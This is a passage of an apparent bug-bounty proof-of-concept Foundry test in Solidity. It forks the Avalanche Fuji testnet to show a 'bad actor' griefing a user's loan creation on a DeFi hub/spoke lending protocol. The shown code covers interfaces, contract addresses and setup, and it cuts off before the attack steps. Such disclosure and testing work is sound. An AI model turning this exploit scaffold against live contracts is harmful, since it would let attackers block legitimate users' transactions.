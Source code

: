 ```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol";

interface IHUB {
    function loanManager() external view returns (address);
}

interface ISpoke {
    struct MessageParams {
        uint16 adapterId; 
        uint16 returnAdapterId; 
        uint256 receiverValue; 
        uint256 gasLimit; 
        uint256 returnGasLimit; 
    }

    function createAccount(MessageParams memory params, bytes32 accountId, bytes32 refAccountId) external payable;
    function createLoan(MessageParams memory params, bytes32 accountId, bytes32 loanId, uint16 loanTypeId, bytes32 loanName) external payable;
}

interface ILoanManager {
    function isUserLoanActive(bytes32 loanId) external view returns (bool);
}

interface IHubAdapter {
    function sequence() external view returns (uint256);
}

contract FolksPOC_GriefLoanCreation is Test {
    uint256 avaxTestnetFork;

    string AVAX_FUJI_RPC_URL = vm.envString("AVAX_FUJI_RPC_URL");

    address constant HUB = 0xaE4C62510F4d930a5C8796dbfB8C4Bc7b9B62140;

    address constant HUB_ADAPTER = 0xf472ab58969709De9FfEFaeFFd24F9e90cf8DbF9;

    address constant SPOKE_COMMON = 0x6628cE08b54e9C8358bE94f716D93AdDcca45b00;

    event MessageFailed(uint16 adapterId, bytes32 indexed messageId, bytes reason);

    error UserLoanAlreadyCreated(bytes32 loanId);

    function setUp() public {
        avaxTestnetFork = vm.createFork(AVAX_FUJI_RPC_URL);

        vm.selectFork(avaxTestnetFork);
    }

    function testGriefLoanCreation() public {
        // user address
        address user = address(0x1234);

        // bad actor address
        address badActor = address(0x69420);

        // bad actor has account created
        ISpoke.MessageParams memory params = ISpoke.MessageParams({ 
            adapterId: 1,
```